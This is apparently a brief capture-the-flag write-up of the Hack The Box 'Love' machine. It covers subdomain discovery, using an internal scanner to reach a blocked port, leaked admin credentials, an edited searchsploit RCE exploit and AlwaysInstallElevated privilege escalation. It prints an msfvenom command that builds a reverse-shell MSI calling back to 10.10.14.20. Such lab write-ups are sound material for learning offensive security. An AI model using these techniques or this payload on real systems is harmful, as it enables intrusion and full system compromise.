






Accessing the http site we have nothing, its just a default apache page. If we access the https site we can see a certificate which provides us a subdomain of http://staging.love.htb

Port 5000 is a webpage but we cannot access it. I can use the scanner though to leak whats on the website. I had originally tried the direct IP to port 5000 but got access denied, then I tried localhost on other pages other than port 5000 so I had to cheat and look at 0xdf's walkthrough. Simple mistake.

admin:@LoveIsInTheAir!!!!
We can then login to the admin page and we have an RCE exploit which we can find with searchsploit.

We have to edit the script a little bit to go to the proper path and put our IP and creds in. But it works and we get a reverse shell.

We download linpeas and run it, we see alwaysinstallelevated is on. This means we can download a shell and it will be installed as admin

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.20 LPORT=9998 -a x64 --platform Windows -f msi -o evil.msi
Upload the evil.msi to the machine and run it and we get system
